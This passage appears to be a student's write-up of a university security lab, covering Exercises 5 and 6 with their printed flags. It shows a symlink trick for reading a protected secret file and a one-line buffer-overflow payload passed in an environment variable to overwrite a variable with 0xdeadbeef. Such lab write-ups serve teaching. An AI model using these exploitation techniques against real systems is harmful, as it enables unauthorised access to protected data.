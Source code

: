 > -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

###### Exercise 5

> [!exercise]+ Exercise 5
> Go to /home/q5/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is straightforward - since we don't have permissions to create a file inside `/q5`, we can create a `symlink` to the `secret` file from `secet` contained in `~` and run the script inside `~`.
> 
> ```
> student@hacklabvm:~$ ln -s /home/q5/secret ./secet
student@hacklabvm:~$ ls -l
lrwxrwxrwx  1 student student   15 Mar 28 03:58 secet -> /home/q5/secret
> ...
>```
>
>```
>student@hacklabvm:~$ ../q5/run_me
> _________________________________________
>/ csf2024s1_{phalangitic-utfangethef-cano \
>\ nicate}                                 /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

###### Exercise 6

> [!exercise]+ Exercise 6
> Go to /home/q6/. Exploit the program to get the secret.
> 
> **Answer:**
> Another straightforward one. We need to once again cause a buffer overflow and overwrite the `flag` variable with `0xdeadbeef`. To do this, add the hex code as an environment variable to `Q6_SECRET_CODE` padded with prepended junk data. We can use `export` for this. 
> 
> ```
> export Q6_SECRET_CODE=$(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xef\xbe\xad\xde")')
>```
>
>Then we simply execute the program.
>
>```
>student@hacklabvm:/home/q6$ ./run_me
> _________________________________________
>/ csf2024s1_{linkages-lunchtime-bepillare \